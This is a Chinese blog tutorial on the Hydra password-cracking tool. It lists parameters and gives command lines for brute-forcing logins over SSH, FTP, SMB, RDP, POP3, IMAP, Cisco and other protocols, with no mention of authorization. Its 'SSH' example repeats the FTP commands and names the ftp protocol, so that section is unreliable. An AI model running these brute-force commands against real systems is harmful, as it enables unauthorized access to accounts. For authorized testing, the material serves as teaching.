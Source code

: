 ```yaml
--- 
layout: post
title: "KALI Hydra破解工具的使用"
date: 2017-11-28 9:34:06 
description: "KALI Hydra破解工具的使用"
tag: Tools
---
```


### 介绍

&nbsp;&nbsp;&nbsp;&nbsp;hydra是一种猜测和破解密码的工具，支持多种网络协议，如HTTP、FTP、POP3、SMB等。Hydra依靠提供的用户名和密码，并尝试登陆网络服务器，默认行数为16.一旦登陆成功，将会保存相关的记录。

`说明：使用的情况是远程非本地`

### 安装

`windows:`
链接：http://pan.baidu.com/s/1ge7NdoZ 密码：atob

`Linux:`
 `su apt-get install hydra 
 或者 su yum install –y hydra`

如果你使用的的源码编译安装，也许你需要安装一些可选的模块：
`libssl-dev libssh-dev libidn11-dev libpcre3-dev 
libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev`

### 使用帮助文档

[官方使用帮助文档](https://www.thc.org/thc-hydra/README)

### 基本参数

```C
1.	常用参数：
2.	
3.	-l: 指定登陆名
4.	-L: 指定登陆名的文件
5.	-p: 指定破解的密码
6.	-P：指定破解密码的文件
7.	-e ns: 尝试密码为空和账号是密码的情况
8.	-t: 指定线程
9.	-f: 指定当找到第一个破解出来的密码后停止
10.	-C： 是-P、-L的替代，指定存放用户名和密码的文件，格式是  用户名:密码
11.	-M: 指定破解的主机和端口的文件 ,格式是  主机或者IP:端口  
12.	    或者  不带端口使用默认端口格式  主机或者域名
13.	-v: 显示详细过程
14.	-w: 设置最大超时时间

基本使用方法：
hydra -l  用户名 -P 字典文件 IP 协议
hydra -L 用户名文件 -P 密码文件 IP 协议
```

### 破解SSH

```C
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

### 破解FTP

```C
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

### 破解CISCO

```C
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
```

### 破解TEAMSPEAK

```C
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
```

### 破解SMB

```C
# hydra -l administrator -P pass.txt 10.36.16.18 smb
```

### 破解POP3

```C
# hydra -l muts -P pass.txt my.pop3.mail pop3
```

### 破解RDP

```C
# hydra ip rdp -l administrator -P pass.txt -V
```

### 破解http-proxy

```C
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
```

### 破解IMAP

```C
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
```

### 其他协议的破解

> 请使用hydra –U PROTOCOL 来查看使用的例子,比如想查看http-post-form破解：
hydra –U http-post-hydra

> PROTOCOLS(支持的协议类型):
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,
HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY,
HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST,
HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener,
Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin,
Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5,
SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth,
VNC and XMPP.


推荐阅读：

- [Tkinter Button控件使用-2](https://ssjt21.github.io/2017/11/Python_TK_Button/)

- [Tkinter Canvas控件使用-3](https://ssjt21.github.io/2017/11/Python_TK_Canvas/)

- [Python PIL Image类使用](http://ssjt21.github.io/2017/11/Python_PIL_Image_Module/)

- [Python调用Hashcat跑主机密码文件](http://ssjt21.github.io/2017/11/Python_Hashcatshell/)



<br>

转载请注明：[随时静听的博客](http://ssjt21.github.io) » [点击阅读原文](https://ssjt21.github.io/2017/11/TOOLS_Hydra/)